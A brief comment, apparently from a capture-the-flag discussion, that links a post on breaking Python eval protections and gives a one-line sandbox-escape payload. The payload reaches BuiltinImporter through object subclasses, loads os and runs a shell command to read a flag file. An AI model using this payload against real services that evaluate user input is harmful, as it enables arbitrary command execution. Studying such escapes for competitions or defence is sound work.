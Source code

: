 Look at this page: https://netsec.expert/posts/breaking-python3-eval-protections/
Basically just make the command at the end to cat the flag file:

```python
[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("cat flag.txt")
```